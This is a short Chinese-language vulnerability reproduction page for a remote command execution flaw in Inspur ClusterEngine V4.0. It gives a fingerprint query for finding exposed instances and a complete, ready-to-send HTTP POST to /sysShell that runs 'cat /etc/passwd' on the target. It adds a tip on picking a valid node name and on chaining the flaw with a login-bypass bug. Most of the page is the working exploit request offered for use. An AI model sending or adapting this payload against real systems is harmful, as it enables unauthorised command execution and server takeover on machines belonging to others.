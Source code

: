 # 浪潮ClusterEngineV4.0 sysShell 任意命令执行漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在远程命令执行，攻击者通过发送特殊的请求可以获取服务器权限

## 漏洞影响

<a-checkbox checked>浪潮ClusterEngineV4.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="TSCEV4.0"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125204987.png)

发送请求包

```shell l
POST /sysShell HTTP/1.1
Host: xxx.xxx.xxx.xxx
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: lang=cn
Cache-Control: max-age=0
Content-Length: 42

op=doPlease&node=cu01&command=cat /etc/passwd
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125204983.png)



<a-checkbox checked>注意参数 node 中的 cu01 需要为shell集群中的存在主机</a-checkbox></br>



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125204763.png)



这里可以配合任意用户登录漏洞查看主机名